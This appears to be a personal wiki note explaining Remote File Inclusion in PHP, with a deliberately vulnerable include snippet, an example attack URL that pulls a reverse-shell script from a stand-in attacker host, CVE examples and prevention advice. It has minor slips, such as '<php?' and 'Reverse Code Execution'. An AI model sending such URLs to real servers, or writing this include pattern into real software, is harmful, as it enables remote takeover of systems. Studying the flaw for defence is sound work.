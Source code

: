 
# Remote File Inclusion Vulnerability
A type of web vulnerability that allows an attacker to force an application to include code files imported from another location (like a server controlled by an attacker).
## Mechanism:
Many coding languages used to develop web applications on the server side allow developers to include source code from other files. Some languages allow inclusion *via URL* while others allow the use of local files.

This inclusion is usually *static* which means the URL is defined in the source code and *cannot be modified*. If the developer wants a file to be included dynamically from a remote location, then it may be passed as a user input parameter.

In an  RFI vulnerability, an attacker will modify the user input to include their own malicious remote files. Most commonly happens in *[PHP](/coding/languages/PHP.md) using the include expression* (most other languages used for web applications make it more complex to include remote files in the code).
- This ability has been deprecated in PHP since v 7.4.0
### VS. [Local File Inclusion](/cybersecurity/vulnerabilites/LFI.md):
When an attacker uses the application's code to access another file *included in the same server* this is known as an LFI vulnerability. 

LFI's are more common because:
- It includes all cases in which an attacker can access a local file where they shouldn't (not just when the developer includes a source code file)
- It is easier to do in most languages (not just PHP)
- Developers need their code to read local files more often then remote ones
- LFI also often goes hand in hand with directory-traversal, but RFI by definition cannot lead to directory traversal because the file *is included via URL, not file-path*.

## Example of PHP RFI:
A developer wants to include a file from another server but the file is not static. This snippet is from `index.php`:
```PHP
<php? 
  $module = $_GET["module"];
  include $module;
?>
```
The server runs PHP v7.3.33 and the `php.ini` file includes the following parameter: `allow_url_include = On`

This parameter (deprecated with PHP 7.4.0) allows the `include` expression to parse a URL and include a file from it. The file is taken from the `GET HTTP` request so the following module can be included: `https://target.com/index.php?module=http://server2.target.com/welcome.php`
### Attack vector:
An attacker can manipulate the `GET` request sent to `index.php` to include a URL with a #reverse-shell script which will connect to a malicious server:
```
http://target.com/index.php?module=http://attacker.example2.com/php-reverse-shell.php
```
The applications runs the code of the reverse shell, causing [Reverse Code Execution](/cybersecurity/attacks/RCE.md) and granting the attacker access to the server's command line.
### Examples of known RFI vulnerabilities:
These are common in open-source web apps with known vulnerabilities to RFI:
1. CVE-2018-16283: [Wechat Broadcast Plugin 1.2.0](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-16283) (WordPress plugin)
2. CVE-2014-7228: [Joomla core](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7228) multiple RFI vulnerabilities in several versions
## Defense:
### Detection:
Look for versions of software that are known to be vulnerable to RFI. Versioning can be detected via the software's documentation, network scanners, or with tools like [software composition analysis](https://www.invicti.com/learn/software-composition-analysis-sca/) software (SCA).
- SCA software is non-invasive, meaning they don't need to perform mock attacks to analyze an application. Instead, they try to interact with the application while it runs in order to "fingerprint" a component or search through the apps code.

The only way to know for certain that an unknown RFI vulnerability exists in an application *is to exploit it*.
- Perform pen-testing on it
- Use a security testing tool which will automate the exploit
### Prevention:
*Avoid using user input in include expressions*: this includes URLs coming from a user to be used in #HTTP-requests, but also any other data whose source can be manipulated by users/ attackers.

If your application requires using includes, then *create a whitelist of safe files*

*Do not rely on blacklisting:* or other methods of input sanitation and validation. Attackers can bypass these types of defenses easily.

Don't use versions of PHP older than 7.4.0, and avoid using other software which is known to have vulnerabilities to RFI.

> [!Resources]
> - [Invicti: Remote file inclusion](https://www.invicti.com/learn/remote-file-inclusion-rfi/)

